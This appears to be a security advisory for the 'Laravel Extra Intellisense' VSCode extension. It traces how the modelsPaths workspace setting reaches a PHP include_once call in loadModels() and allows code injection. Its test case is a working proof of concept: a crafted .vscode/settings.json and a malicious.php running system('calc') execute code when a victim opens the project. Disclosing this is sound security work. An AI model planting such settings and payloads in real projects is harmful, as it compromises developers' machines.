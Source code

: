 * Preconditions:
    - The victim has the "Laravel Extra Intellisense" extension installed and activated in VSCode.
    - The victim opens a malicious Laravel project in VSCode that contains a crafted `.vscode/settings.json` file with a malicious `LaravelExtraIntellisense.modelsPaths` setting, and a malicious PHP file within the specified paths.

* Source code analysis:
    1. File: `src/EloquentProvider.ts`
    2. Function: `loadModels()`
    ```typescript
    Helpers.runLaravel(
        "foreach (['" + vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<Array<string>>('modelsPaths', ['app', 'app/Models']).join('\', \'') + "'] as $modelPath) {" +
        "   if (is_dir(base_path($modelPath))) {" +
        "      foreach (scandir(base_path($modelPath)) as $sourceFile) {" +
        "         if (substr($sourceFile, -4) == '.php' && is_file(base_path(\"$modelPath/$sourceFile\"))) {" +
        "             include_once base_path(\"$modelPath/$sourceFile\");" + // Vulnerable line: Dynamic file inclusion based on user setting
        "         }" +
        "      }" +
        "   }" +
        "}" +
        "..."
    ```
    The `loadModels` function constructs PHP code that iterates through paths specified in `modelsPaths` setting and uses `include_once base_path("$modelPath/$sourceFile")` to include PHP files from these paths. This dynamic file inclusion, based on user-controlled `modelsPaths`, allows for code injection if a malicious path and PHP file are provided.

* Security test case:
    1. Create a new folder for a malicious Laravel project.
    2. Inside the folder, create a `malicious.php` file with the following content:
        ```php
        <?php system('calc'); ?>
        ```
    3. Inside the folder, create a `.vscode` subfolder.
    4. Inside `.vscode`, create a `settings.json` file with the following content:
        ```json
        {
            "LaravelExtraIntellisense.modelsPaths": ["."]
        }
        ```
    5. Open the malicious project folder in VSCode with the "Laravel Extra Intellisense" extension enabled.
    6. Open any PHP file (e.g., create an empty `test.php` file in the project root and open it).
    7. Observe that the calculator application (`calc.exe` on Windows, `calc` on Linux/macOS) is launched. This confirms arbitrary code execution due to the malicious `modelsPaths` setting leading to file inclusion.
